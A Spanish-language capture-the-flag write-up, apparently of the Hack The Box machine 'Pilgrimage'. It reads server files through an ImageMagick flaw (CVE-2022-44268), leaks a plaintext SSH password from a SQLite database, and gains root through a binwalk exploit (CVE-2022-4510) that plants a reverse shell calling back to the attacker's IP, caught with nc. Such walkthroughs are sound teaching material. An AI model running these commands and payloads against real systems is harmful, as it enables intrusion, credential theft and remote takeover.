 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x35d1dce4
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | .....                          | 0xf943bb7f
     111 | tIME  |       7 | .......                        | 0x6c86e37e
     130 | IDAT  |  189697 | x...y.-Y....!......7.:...r..v. | 0xf22998a2
  189839 | tEXt  |      37 | date:create.2024-07-08T16:03:1 | 0xe6ff2113
  189888 | tEXt  |      37 | date:modify.2024-07-08T16:03:1 | 0x97a299af
  189937 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
  189967 | IEND  |       0 |                                | 0xae426082
```

Subiremos nuevamente la imagen maliciosa en la aplicación web para que se nos genere el enlace. Una vez generado el enlace, nos descargaremos la imagen redimensionada en nuestro equipo.

Al revisar con `identify` la imagen descargada, volvemos a verificar que se nos proporcionan datos codificados en `Hex` en el campo `Raw profile type`.

```bash
❯ wget http://pilgrimage.htb/shrunk/67b3ce2de735a.png
--2025-02-18 01:02:17--  http://pilgrimage.htb/shrunk/67b3ce2de735a.png
Resolviendo pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Conectando con pilgrimage.htb (pilgrimage.htb)[10.10.11.219]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 65703 (64K) [image/png]
Grabando a: «67b3ce2de735a.png»

67b3ce2de735a.png                                         100%[===================================================================================================================================>]  64,16K  --.-KB/s    en 0,1s    

2025-02-18 01:02:17 (437 KB/s) - «67b3ce2de735a.png» guardado [65703/65703]

❯ identify -verbose 67b3ce2de735a.png
Image:
  Filename: 67b3ce2de735a.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Properties:
    date:create: 2025-02-18T00:02:17+00:00
    date:modify: 2025-02-18T00:02:54+00:00
    date:timestamp: 2025-02-18T00:02:24+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 6
    png:IHDR.color_type: 6 (RGBA)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 320, 240
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-02-18T00:02:54Z
    Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a

    signature: 953524a63488f5590b1f17291c8e8261a87c088552107dc7828c66e5f771c819
  Artifacts:
    filename: 67b3ce2de735a.png
    verbose: true
  Tainted: False
  Filesize: 65703B
  Number pixels: 76800
  Pixels per second: 23.3078MB
  User time: 0.000u
  Elapsed time: 0:01.003
  Version: ImageMagick 6.9.13-12 Q16 x86_64 18420 https://legacy.imagemagick.org
```

Volviendo a descodificar en `Hex` el contenido recibido, verificamos que hemos podido comprobar el contenido del archivo `/etc/hosts`.

<figure><figcaption></figcaption></figure>

### Automated Exploitation with Python Script

Realizando una búsqueda por Internet, nos encontramos con el siguiente repositorio de GitHub que realiza la explotación de la vulnerabilidad de manera más automatizada.



```bash
❯ git clone https://github.com/kljunowsky/CVE-2022-44268; cd CVE-2022-44268
Clonando en 'CVE-2022-44268'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 27 (delta 8), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (27/27), 7.32 KiB | 7.32 MiB/s, listo.
Resolviendo deltas: 100% (8/8), listo.
```

A continuación, se muestra una simple prueba de cómo poder explotar la vulnerabilidad con el script mencionado.

En nuestro caso, en la imagen `image.png` que disponemos le indicaremos que el archivo a leer es `/etc/group` y que nos devuelva el resultado en una imagen llamada `gzzcoo.png`.

Verificaremos que se ha creado correctamente la imagen maliciosa y que en el campo `Profile` de los metadatos, está presente el nombre del archivo a querer listar.

<pre class="language-bash"><code class="lang-bash">❯ python3 CVE-2022-44268.py --image image.png --file-to-read /etc/group --output gzzcoo.png
<strong>
</strong><strong>❯ ls -l gzzcoo.png
</strong>.rw-rw-r-- kali kali 176 KB Tue Feb 18 01:05:09 2025  gzzcoo.png

❯ exiftool gzzcoo.png
ExifTool Version Number         : 13.10
File Name                       : gzzcoo.png
Directory                       : .
File Size                       : 180 kB
File Modification Date/Time     : 2025:02:18 01:05:09+01:00
File Access Date/Time           : 2025:02:18 01:05:09+01:00
File Inode Change Date/Time     : 2025:02:18 01:05:09+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 640
Image Height                    : 480
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Profile                         : /etc/group
Image Size                      : 640x480
Megapixels                      : 0.307
</code></pre>

Subiremos manualmente la imagen maliciosa en la aplicación web y mediante el siguiente comando, le indicaremos la URL de la imagen redimensionada que nos ha generado la aplicación web y comprobaremos directamente el resultado del archivo listado.

```bash
❯ python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/67b3ceff05ee0.png
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
```

### Information Leakage

Ahora que tenemos la capacidad de listar el contenido de archivos del sistema, deberemos de encontrar aquel archivo que nos pueda llegar a proporcionar información interesante.

En nuestro caso, se probaron de intentar obtener las credenciales privadas SSH (`id_rsa`) de usuarios, verificar archivos de configuración, etc pero no logramos obtener resultado.

Recordando que disponemos de los archivos de configuración de la aplicación web encontrados en el `/.git/`, nos encontramos que en el archivo `login.php` se indica la ubicación de la base de datos de `SQLite3` de los usuarios de la aplicación web.

Con lo cual, podríamos intentar verificar si podemos obtener el archivo de la base de datos y ver su contenido.


```php
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
```


Por lo tanto, en nuestra imagen de prueba `image.png`, le indicaremos que el archivo a leer sea el de la base de datos ubicada en `/var/db/pilgrimage` y se nos devuelva la imagen maliciosa con el nombre `gzzcoo.png`.

Verificamos que en el apartado de `Profile` de los metadatos de la imagen se ha indicado correctamente el archivo a obtener.

```bash
❯ python3 CVE-2022-44268.py --image image.png --file-to-read /var/db/pilgrimage --output gzzcoo.png

❯ exiftool gzzcoo.png
ExifTool Version Number         : 13.10
File Name                       : gzzcoo.png
Directory                       : .
File Size                       : 180 kB
File Modification Date/Time     : 2025:02:18 01:08:11+01:00
File Access Date/Time           : 2025:02:18 01:05:18+01:00
File Inode Change Date/Time     : 2025:02:18 01:08:11+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 640
Image Height                    : 480
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Profile                         : /var/db/pilgrimage
Image Size                      : 640x480
Megapixels                      : 0.307
```

Subiremos la imagen maliciosa en la aplicación web y obtendremos la URL de la imagen redimensionada.

A través del script de Python, al indicarle la URL de la imagen, se nos proporcionaba el siguiente mensaje de error. Esto es debido a que el archivo a querer listar se trata de un binario codificado actualmente en `Hex`, pero la función principal del script es descodificarlo en `Hex` para mostrarlo en `ASCII`.

```bash
❯ python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/67b3cfa7b9730.png
Traceback (most recent call last):
  File "/home/kali/Desktop/HackTheBox/Linux/Pilgrimage/Pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
    main()
    ~~~~^^
  File "/home/kali/Desktop/HackTheBox/Linux/Pilgrimage/Pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x91 in position 99: invalid start byte
```

Nos descargaremos la imagen en nuestro equipo y verificaremos a través de `identify`que en el campo `Raw profile type` se muestra el contenido del binario de la base de datos.

El valor inicial de `53514c69` corresponde a los primeros bytes de una base de datos SQLite, que empieza con la cadena **"**&#x53;QLit&#x65;**"** (en formato hexadecimal: `53 51 4c 69`).

```bash
❯ wget http://pilgrimage.htb/shrunk/67b3cfa7b9730.png
--2025-02-18 01:09:03--  http://pilgrimage.htb/shrunk/67b3cfa7b9730.png
Resolviendo pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Conectando con pilgrimage.htb (pilgrimage.htb)[10.10.11.219]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 66260 (65K) [image/png]
Grabando a: «67b3cfa7b9730.png»

67b3cfa7b9730.png                                         100%[===================================================================================================================================>]  64,71K  --.-KB/s    en 0,1s    

2025-02-18 01:09:03 (546 KB/s) - «67b3cfa7b9730.png» guardado [66260/66260]

❯ identify -verbose 67b3cfa7b9730.png
Image:
  Filename: 67b3cfa7b9730.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Orientation: Undefined
  Properties:
    date:create: 2025-02-18T00:09:03+00:00
    date:modify: 2025-02-18T00:09:12+00:00
    date:timestamp: 2025-02-18T00:09:08+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 6
    png:IHDR.color_type: 6 (RGBA)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 320, 240
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-02-18T00:09:12Z
    Raw profile type: 

   20480
53514c69746520666f726d61742033001000010100402020000000460000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000046002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000

...[snip]...

000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
00000032036901687474703a2f2f70696c6772696d6167652e6874622f736872756e6b2f
363762336365666630356565302e706e670231036909687474703a2f2f70696c6772696d
6167652e6874622f736872756e6b2f363762336365326465373335612e706e67

    signature: 953524a63488f5590b1f17291c8e8261a87c088552107dc7828c66e5f771c819
  Artifacts:
    filename: 67b3cfa7b9730.png
    verbose: true
  Tainted: False
  Filesize: 66260B
  Number pixels: 76800
  Pixels per second: 22.4797MB
  User time: 0.000u
  Elapsed time: 0:01.003
  Version: ImageMagick 6.9.13-12 Q16 x86_64 18420 https://legacy.imagemagick.org
```

Guardamos todo el contenido en un archivo llamado `data`. Posteriormente, utilizamos el comando `xxd` para convertirlo de vuelta a su formato binario original, generando el archivo `sqlite.db`.

```bash
❯ ls -l data
.rw-rw-r-- kali kali 41 KB Tue Feb 18 01:12:23 2025  data

❯ xxd -r -p data sqlite.db

❯ file sqlite.db
sqlite.db: SQLite 3.x database, last written using SQLite version 3034001, file counter 70, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 70
```

Mediante `sqlite3` accederemos a la base de datos. Enumerando las tablas presentes, nos encontramos con la tabla `users` la cual nos presenta las credenciales en texto plano del usuario `emily`.

```bash
❯ sqlite3 sqlite.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
images  users 
sqlite> select * from users;
emily|abigchonkyboi123
```

También podemos visualizar en entorno gráfico a través de la herramienta de `sqlitebrowser`.

<figure><figcaption></figcaption></figure>

Trataremos de acceder al `SSH` del equipo con las credenciales encontradas. Finalmente, logramos obtener acceso al sistema y visualizar la flag de **root.txt.**

```bash
❯ sshpass -p abigchonkyboi123 ssh emily@10.10.11.219
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ cat user.txt 
36a881ee535*********************
```

## Privilege Escalation

### Reviewing Running Processes and Exploiting Automatically Executed Root Scripts

Al acceder al sistema, verificamos los procesos que se encuentran en ejecución mediante el comando `ps aux`. En el resultado obtenido, comprobamos que el usuario `root` ejecuta un script que se encuentra en `/usr/bin/malwarescan.sh`.

```bash
emily@pilgrimage:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         651  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc1]
root         655  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc2]
root         657  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc3]
root         660  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc4]
root         661  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc5]
root         663  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc6]
root         665  0.0  0.0      0     0 ?        S    10:18   0:00 [card0-crtc7]
root         691  0.0  0.0   6744  2688 ?        Ss   10:18   0:00 /usr/sbin/cron -f
message+     692  0.0  0.1   8260  4120 ?        Ss   10:18   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root         695  0.0  0.0   6816  2980 ?        Ss   10:18   0:00 /bin/bash /usr/sbin/malwarescan.sh
```

El siguiente script `malwarescan.sh` se encarga de monitorear la creación de archivos en el directorio **`/var/www/pilgrimage.htb/shrunk/`** y realizar un escaneo para detectar posibles archivos maliciosos.

1. **Monitoreo de archivos:** El script utiliza `inotifywait` para monitorear en tiempo real el directorio `/var/www/pilgrimage.htb/shrunk/` y detectar la creación de nuevos archivos.
2. **Análisis de archivo:** Cuando se crea un archivo en el directorio, se obtiene el nombre del archivo utilizando una combinación de comandos `echo`, `tail` y `sed`. Este nombre se almacena en la variable `filename`.
3. **Uso de binwalk:** Luego, el archivo es analizado con `binwalk`, una herramienta utilizada para detectar contenido binario, archivos ejecutables y otras estructuras dentro del archivo. El resultado del escaneo se guarda en la variable **`binout`**.
4. **Verificación contra la lista negra:** El script compara el contenido del archivo con una lista negra definida al inicio (`"Executable script"` y `"Microsoft executable"`). Si alguna de estas cadenas aparece en el resultado del escaneo, el archivo se considera sospechoso.
5. **Eliminación de archivos maliciosos:** Si el archivo contiene alguna de las cadenas de la lista negra, el script elimina el archivo sospechoso usando `rm`.

Este script está diseñado para ayudar a prevenir la ejecución de archivos maliciosos en el servidor al monitorear de manera continua y eliminar automáticamente aquellos archivos que coincidan con las firmas de los ejecutables no deseados.

```bash
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

### Binwalk v2.32 - Remote Command Execution \[RCE] (CVE-2022-4510)

En el script se menciona el uso del binario de `binwalk`, con lo cual decidimos revisar la versión instalada en el equipo por si tenía alguna vulnerabilidad de la que nos podamos aprovechar.


Binwalk es una herramienta para buscar archivos incrustados y código ejecutable en una imagen binaria determinada . En concreto, está diseñada para identificar archivos y código incrustados dentro de imágenes de firmware. Binwalk utiliza la biblioteca libmagic, por lo que es compatible con las firmas mágicas creadas para la utilidad de archivos de Unix.


```bash
emily@pilgrimage:~$ /usr/local/bin/binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

Revisando por Internet, nos encontramos que la versión de `Binwalk v2.3.2` era vulnerable a `Remote Code Execution (RCE)` reportado en el siguiente `CVE-2022-4510`.

<figure><figcaption></figcaption></figure>




Se identificó una vulnerabilidad de recorrido de ruta en binwalk de ReFirm Labs desde la versión 2.1.2b hasta la 2.3.3 incluida. Al crear un archivo de sistema de archivos PFS malicioso, un atacante puede hacer que el extractor PFS de binwalk extraiga archivos en ubicaciones arbitrarias cuando binwalk se ejecuta en modo de extracción (opción -e). La ejecución remota de código se puede lograr construyendo un sistema de archivos PFS que, tras la extracción, extraiga un módulo binwalk malicioso en la carpeta .config/binwalk/plugins. Esta vulnerabilidad está asociada con los archivos de programa src/binwalk/plugins/unpfs.py. Este problema afecta a binwalk desde la versión 2.1.2b hasta la 2.3.3 incluida.


Nos encontramos el siguiente repositorio de GitHub en el cual nos proporcionaban un PoC y el exploit para aprovecharnos de la vulnerabilidad.



```bash
❯ git clone https://github.com/adhikara13/CVE-2022-4510-WalkingPath; cd CVE-2022-4510-WalkingPath
Clonando en 'CVE-2022-4510-WalkingPath'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 12 (delta 3), reused 7 (delta 2), pack-reused 0 (from 0)
Recibiendo objetos: 100% (12/12), 7.28 KiB | 7.28 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
```

En nuestro caso, dispondremos de una imagen normal llamada `image.png`. Utilizaremos el exploit para inyectar en la imagen una **Reverse Shell** hacía nuestro equipo remoto. Verificamos que se nos genera una nueva imagen llamada `binwalk_exploit.png` el cual compartiremos a través de un servidor web.

```bash
❯ ls -l
.rw-rw-r-- kali kali 173 KB Tue Feb 18 01:42:15 2025  image.png
.rw-rw-r-- kali kali 6.9 KB Tue Feb 18 01:40:25 2025  LICENSE
.rw-rw-r-- kali kali 1.5 KB Tue Feb 18 01:40:25 2025  README.md
.rw-rw-r-- kali kali 3.3 KB Tue Feb 18 01:40:25 2025  walkingpath.py

❯ python3 walkingpath.py reverse image.png 10.10.16.3 443

❯ ls -l
.rw-rw-r-- kali kali 174 KB Tue Feb 18 01:42:36 2025  binwalk_exploit.png
.rw-rw-r-- kali kali 173 KB Tue Feb 18 01:42:15 2025  image.png
.rw-rw-r-- kali kali 6.9 KB Tue Feb 18 01:40:25 2025  LICENSE
.rw-rw-r-- kali kali 1.5 KB Tue Feb 18 01:40:25 2025  README.md
.rw-rw-r-- kali kali 3.3 KB Tue Feb 18 01:40:25 2025  walkingpath.py

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por otro lado, nos pondremos en escucha con `nc` para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde el equipo comprometido, nos dirigiremos al directorio `/var/www/pilgrimage.htb/shrunk` para descargar la imagen maliciosa que estamos compartiendo desde nuestro servidor. Si todo funciona correctamente y el script que ejecuta `root` detecta este nuevo archivo, será analizado por el binario de `binwalk` y al ser una versión vulnerable, nos deberá proporcionar la Reverse Shell.

```bash
emily@pilgrimage:~$ cd /var/www/pilgrimage.htb/shrunk/

emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget 10.10.16.3/binwalk_exploit.png
--2025-02-18 11:48:42--  http://10.10.16.3/binwalk_exploit.png
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 178080 (174K) [image/png]
Saving to: ‘binwalk_exploit.png’

binwalk_expl 100% 173.91K   637KB/s    in 0.3s     

2025-02-18 11:48:43 (637 KB/s) - ‘binwalk_exploit.png’ saved [178080/178080]

emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ ls -l
total 556
-rw-r--r-- 1 www-data www-data  65703 Feb 18 11:02 67b3ce2de735a.png
-rw-r--r-- 1 www-data www-data  66016 Feb 18 11:06 67b3ceff05ee0.png
-rw-r--r-- 1 www-data www-data  66260 Feb 18 11:09 67b3cfa7b9730.png
-rw-r--r-- 1 emily    emily    178080 Feb 18 11:42 binwalk_exploit.png
```

Verificamos que finalmente ganamos acceso al sistema como usuario `root` y podemos visualizar la flag **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.219] 34976
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@pilgrimage:~/quarantine# whoami
whoami
root
root@pilgrimage:~/quarantine# cat /root/root.txt
cat /root/root.txt
a0c28ed79d164********************
```
